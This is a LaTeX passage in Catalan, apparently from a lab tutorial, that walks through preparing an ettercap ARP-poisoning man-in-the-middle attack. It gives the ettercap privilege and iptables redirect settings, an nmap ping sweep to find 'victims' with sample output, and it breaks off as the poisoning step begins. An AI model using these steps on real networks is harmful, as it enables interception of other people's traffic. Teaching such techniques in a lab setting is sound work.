 \documentclass[a4paper,11pt]{scrartcl}
\begin{document}
A continuació ens hem d'assegurar que el \texttt{ettercap} està configurat adequadament,
concretament hem d'observar que el fitxer \texttt{/etc/etter.conf} hi hagi els següents paràmetres;

\begin{verbatim}
[privs]
ec_uid = 0
ec_gid = 0
\end{verbatim}

També cal des-comentar les següents línies del fitxer, quedant de la manera següent:

\begin{verbatim}
redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport
%port -j REDIRECT --to-port %rport"
redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport
%port -j REDIRECT --to-port %rport"
\end{verbatim}

Ara hem de conèixer en quin escenari ens trobam, primer de tot identificar la nostra adreça \emph{IP}
i targeta de xarxa. La targeta de xarxa si és cablejada segurament serà \texttt{eth0},
així doncs amb un \texttt{ifconfig eth0} hauríem de veure la nostra adreça \emph{IP} al camp
\texttt{inet addr}.

Un cop fet això cercam les víctimes, una manera de fer-ho és emprant el programa \texttt{nmap},
aquest llança \emph{pings} a totes les adreces de la nostra xarxa i mira quines responen.

\begin{verbatim}
nmap -sP 192.168.1.0/24
\end{verbatim}

això ens respondrà amb un

\begin{verbatim}
Starting Nmap 5.21 ( http://nmap.org ) at 2011-05-24 12:23 CEST
Nmap scan report for 192.168.1.40
Host is up (0.0011s latency).
Nmap scan report for 192.168.1.63
Host is up (0.00062s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 29.89 seconds
\end{verbatim}

En el nostre cas la víctima és \texttt{192.168.1.63}, nosaltres som l'atacant
amb la adreça \texttt{192.168.1.40}.

Ara toca fer l'enverinament ARP perquè la víctima ens envii a nosaltres els paquets
en lloc del \emph{router} i així poder-los veure i contestar. Aquesta tècnica també
és coneguda com \emph{man in the middle}.
\end{document}
